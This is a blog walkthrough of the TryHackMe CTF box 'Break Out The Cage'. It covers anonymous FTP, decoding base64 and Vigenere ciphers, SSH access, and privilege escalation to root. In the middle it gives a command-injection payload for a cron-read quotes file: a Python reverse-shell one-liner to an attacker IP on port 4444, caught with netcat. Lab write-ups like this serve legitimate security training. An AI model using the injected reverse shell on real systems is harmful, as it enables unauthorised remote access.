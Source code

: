 ```yaml
---
layout: post
title: "Break Out The Cage - TryHackMe"
date: 2020-07-11
ctf: true
excerpt: "Walkthrough for Break Out The Cage on TryHackme"
tags: [Break Out The Cage, TryHackMe, encryption, email]
comments: false
---
```




Break Out the Cage is another recently released easy box on [TryHackme](https://www.tryhackme.com). Let's start off with a port scan with **nmap -p- -T4 [machine ip]** This will return 3 open ports: ftp, ssh, and http. 

![Break Out The Cage nmap1](/assets/img/BreakOutTheCage1.png)

Let's enumerate these 3 ports with **nmap -sC -sV -O -p 21,22,80 [machine ip]**.

![Break Out The Cage nmap2](/assets/img/BreakOutTheCage2.png)

It appears that there is anonymous FTP access open, let's login as anonymous with **ftp [machine ip]** and enter **anonymous** for the username and password. We are able to successfully connect. I tried to list the directory and received an error so I change the mode to passive with **passive** and I was able to run **ls**. There was a file named **dad_tasks**, that I saved locally to my machine with **get dad_tasks**. I then exited the FTP site with **bye**.

![Break Out The Cage ftp dad_tasks](/assets/img/BreakOutTheCage3.png)

Running **cat dad_tasks** from my local machine gives me results that are encoded, most likely in base 64.

![Break Out The Cage cat dad_tasks](/assets/img/BreakOutTheCage4.png)

Let's run **cat dad_tasks \| base64 -d** to decode it from base64. This gives us a different type of encoding.

![Break Out The Cage base64 decode](/assets/img/BreakOutTheCage5.png)

This appears to be some sort of cipher. I tried several, and ended up finding out it is a Vigenere cipher. Since I didn't have the key, I used a [Vigenere solver](https://www.guballa.de/vigenere-solver) to assist with cracking this, which results in the following.

![Break Out The Cage Vigenere Cipher](/assets/img/BreakOutTheCage6.png)

The last line contains what appears to be Weston's password, which is the answer to question one.

Now that we have a password, let's try to ssh in as weston with **ssh weston@[machine ip]**. Enter the password that was recovered above. Success, now we are logged in as weston.

![Break Out The Cage ssh user access](/assets/img/BreakOutTheCage7.png)

Let's see what weston can run as root with **sudo -l**. We are given the following results:

![Break Out The Cage sudo -l](/assets/img/BreakOutTheCage8.png)

Let's run that file and see what happens. It prints some text. Running **cat /usr/bin/bees** shows you that this is a bash script.

![Break Out The Cage bees](/assets/img/BreakOutTheCage25.png)

Unfortunately, we are not able to edit this file. However, every few minutes a broadcast message from cage comes up.

![Break Out The Cage broadcast](/assets/img/BreakOutTheCage9.png)

We are not able to access cage's home directory as weston. However, if we run **id**, we can see that weston is part of both the weston and cage groups

![Break Out The Cage id](/assets/img/BreakOutTheCage10.png)

Let's use **find / -group "cage" -print 2>/dev/null** to find all files with the group owner of cage.

![Break Out The Cage find](/assets/img/BreakOutTheCage12.png)

We already know we don't have access to /home/cage, but let's try to navigate to /opt/.dads_scripts/ with **cd /opt/.dads_scripts** and view directory contents and permissions with **ls -al**.

![Break Out The Cage dads_scripts](/assets/img/BreakOutTheCage13.png)

It appears we only have read to the python script, so we can't modify it directly. Let's view the contents of the script to see what it does with **cat spread_the_quotes.py**.

![Break Out The Cage spread_the_quotes.py](/assets/img/BreakOutTheCage14.png)

It looks like it is opening a file in /opt/.dads_scripts/.files/.quotes and reading a random line and then echoing it. Let's navigate to that directory with **cd /opt/.dads_scripts/.files/**. Next let's run **ls -al**. It appears we have access to write to the **.quotes** file as the cage group has write permissions to it.

![Break Out The Cage .files](/assets/img/BreakOutTheCage15.png)

Let's run **vi .quotes** to open up the contents for editing and delete everything out of the file. This can be done by pressing **dd** over and over until all the lines are deleted. Next, press Insert and  **-- INSERT --** should show up at the bottom of the screen. This allows you to enter in new information. Let's enter the following: **"test" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attacker ip]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'**. This will end the wall command's input which will send out test as a broadcast, and then && will run the command after, which is a way to create a reverse shell with python. We know this shell will work due to the fact that python scripts are running on this machine already. Next, press escape followed by **:wq!** to write and quit vim. 

![Break Out The Cage .quotes](/assets/img/BreakOutTheCage16.png)

In another terminal window, run **nc -nvlp 4444** and wait a few minutes for the script to run. You should receive a reverse shell connection as cage. Running **whoami** confirms this and running **ls -al** shows an **email_backup** directory and a file called **Super_Duper_Checklist**. Let's view the contents of the Checklist first with **cat Super_Duper_Checklist**.

![Break Out the Cage cat Super_Duper_Checklist](/assets/img/BreakOutTheCage18.png)

This is the user flag for this box. Let's now see if cage has any sudo level permissions. Let's run **sudo -l**. Unfortunately, it asks for cage's password which we do not have. Let's go review the email_backup folder by typing in **cd email_backup**. Running **ls -al** shows 3 files here. Using **cat em*** will type the contents of all 3 emails.

![Break Out The Cage email_backup](/assets/img/BreakOutTheCage19.png)

The emails mention a Face Off sequel and have several references to the word face in them. The last email has something interesting in it based on a weird note from the agent.

![Break Out The Cage email_3](/assets/img/BreakOutTheCage20.png)

This appears to be another encrypted message. Let's see if this is also a Vigenere cipher. The word face is mentioned over and over and over in these emails, so let's see if that's the key to the cipher. Since we are assuming this is the correct key, let's use this [Vigenere Cipher Decoder](https://www.boxentriq.com/code-breaking/vigenere-cipher) to decode the cipher.

![Break Out The Cage Vignere Cipher Decoder](/assets/img/BreakOutTheCage21.png)

In the 3rd email, it states that it likely has something to do with his account on this server. Since there are no other users, it's safe to assume that this could potentially be the password for root. Let's run **su root** and enter the password we obtained above.

![Break Out The Cage su root](/assets/img/BreakOutTheCage22.png)

Success! We now have root access. Let's see if we can find the root flag now. Let's navigate to root's home folder with **cd /root** and run **ls -al**. We will see an email_backup folder. Let's navigate to it with **cd email_backup** and run **ls **, we see two emails in this folder.

![Break Out The Cage finding root flag](/assets/img/BreakOutTheCage23.png)

Let's run **cat em*** to view their contents. In the bottom of the second email is the root flag.

![Break Out The Cage Root Flag](/assets/img/BreakOutTheCage24.png)

This is the root flag for this challenge!
